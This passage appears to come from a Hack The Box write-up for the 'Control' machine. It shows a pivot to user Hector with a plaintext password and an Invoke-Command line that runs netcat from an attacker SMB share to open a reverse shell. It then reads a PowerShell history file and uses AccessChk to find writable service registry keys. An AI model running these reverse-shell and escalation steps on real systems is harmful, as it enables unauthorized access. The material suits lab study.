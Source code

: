     Assign Hectors credentials:
      PS C:\inetpub\wwwroot\blog> $user = 'control.htb\hector'
      PS C:\inetpub\wwwroot\blog> $pass = 'l33th4x0rhector' | ConvertTo-SecureString -AsPlainText -Force
      PS C:\inetpub\wwwroot\blog> $creds = New-Object System.Management.Automation.PSCredential($user,$pass)

    Test to make sure it works by executing a command:
      PS C:\inetpub\wwwroot\blog> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { whoami }
            control\hector

    Setup a new reverse shell:
      PS C:\inetpub\wwwroot\blog> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { //10.10.14.3/pub-share/nc64.exe 10.10.14.3 4499 -e powershell }

    root@p3:/opt/htb/machines/control# nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.3] from (UNKNOWN) [10.10.10.167] 51686
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\Users\Hector\Documents> whoami
        control\hector
      PS C:\Users\Hector\Documents> type C:\Users\Hector\Desktop\user.txt
        d878****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. General enumeration gives us close to nothing. Looking at the PS History of user Hector we find something interesting to follow

    PS C:\Users\Hector\Documents> type C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
      get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
      get-acl HKLM:\SYSTEM\CurrentControlSet | format-list


2. The PS History hints us towards the Registry, so lets look if there are any vulnerable services using AccessChk.exe

      PS C:\Users\Hector\Documents> .\ack.exe "hector" -kvuqsw hklm\System\CurrentControlSet\Services

      Accesschk v6.12 - Reports effective permissions for securable objects
      Copyright (C) 2006-2017 Mark Russinovich
      Sysinternals - www.sysinternals.com

      RW HKLM\System\CurrentControlSet\Services\.NET CLR Data
      	KEY_ALL_ACCESS
      ..
